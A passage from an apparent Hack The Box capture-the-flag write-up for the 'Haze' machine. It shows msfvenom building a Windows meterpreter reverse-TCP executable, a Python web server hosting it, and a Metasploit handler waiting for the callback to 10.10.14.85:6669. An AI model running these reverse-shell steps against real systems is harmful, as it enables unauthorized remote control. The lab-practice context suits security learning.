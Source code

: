 ```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/serve]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.85 LPORT=6669 -f exe -o asdf.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: asdf.exe
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Haze/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Then we prepared `Metasploit` to catch the `callback`.

```shell
┌──(kali㉿kali)-[~]
└─$ msfconsole
                                                  

# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v6.4.50-dev                          ]
+ -- --=[ 2490 exploits - 1281 auxiliary - 431 post       ]
+ -- --=[ 1466 payloads - 49 encoders - 13 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/
 
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.10.14.85
LHOST => 10.10.14.85
msf6 exploit(multi/handler) > set LPORT 6669
LPORT => 6669
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.85:6669
```
